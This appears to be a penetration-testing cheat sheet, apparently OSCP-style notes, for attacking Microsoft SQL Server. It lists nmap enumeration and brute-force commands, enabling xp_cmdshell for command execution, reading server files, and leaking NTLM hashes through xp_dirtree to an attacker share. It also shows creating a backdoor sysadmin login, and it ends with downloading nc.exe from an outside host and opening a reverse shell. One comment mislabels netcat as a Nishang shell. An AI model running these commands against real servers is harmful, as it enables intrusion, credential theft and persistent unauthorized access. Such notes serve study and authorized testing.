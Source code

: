 ```yaml
---
title: "1443 - MsSQL"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - mssql
toc: true
hide_title: true
excerpt: ""
---
```


**Microsoft SQL Server**

## Nmap Scripts

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.10.10.3
```

## Connecting to MsSQL from Windows

```
sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30
```
## Connecting to MsSQL from Linux

`Remember! after command type 'go'`

```
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
# Windows Authentication mechanism is used by the MSSQL server
```

## MsSQL Commands

| **Command** | **Description** |
|-------------|-----------------|
| `SELECT @@VERSION;` | Show DB version. |
| `SELECT USER_NAME();` | Show current user. |
| `SELECT name FROM master.dbo.sysdatabases;` | Show all available databases in MSSQL. |
| `USE htbusers;` | Select a specific database in MSSQL (`htbusers`). |
| `SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES;` | Show all available tables in the selected database (`htbusers`). |
| `SELECT * FROM users;` | Select all entries from the `users` table in the current database. |
| `EXECUTE sp_configure 'show advanced options', 1;` | Allow advanced options to be changed. |
| `EXECUTE sp_configure 'xp_cmdshell', 1;` | Enable the `xp_cmdshell` extended stored procedure. |
| `RECONFIGURE;` | Apply configuration changes. |
| `xp_cmdshell 'whoami';` | Execute a system command (`whoami`) on the MSSQL server. |
| `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents;` | Read content of a local file on the MSSQL server. |
| `EXEC master..xp_dirtree '\\\\10.10.110.17\\share\\';` | Show directory/file structure of a network share (may leak NTLM hashes). |
| `EXEC master..xp_subdirs '\\\\10.10.110.17\\share\\';` | Show subdirectories of a network share (also may leak hashes). |
| `SELECT srvname, isremote FROM sysservers;` | List linked servers and whether they are remote. |
| `EXECUTE('SELECT @@servername, @@version, SYSTEM_USER, IS_SRVROLEMEMBER(''sysadmin'')') AT [10.0.0.12\\SQLEXPRESS];` | Run query on linked server to get name, version, user, and role. |
| `CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';` | Create a new login. |
| `EXEC sp_addsrvrolemember 'hacker', 'sysadmin';` | Grant sysadmin privileges to the `hacker` login. |

## BruteForce

```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-brute –script-args userdb=users.txt,passdb=passwords.txt $ip
```

## RCE with SQL Server

```
mssqlclient.py <domain>/<username>:<password>@$ip

mssqlclient.py bathry/admin:pss123@192.168.11.15
```

```
SQL> enable_xp_cmdshell 
# Enable Code Execution

SQL> xp_cmdshell copy \\10.10.16.26\gabbar\nc.exe %temp%\nc.exe 
# Copied the Nishang reverse shell to current directory

SQL> xp_cmdshell %temp%/nc.exe -e cmd.exe 10.10.16.26 4444
# Start
```


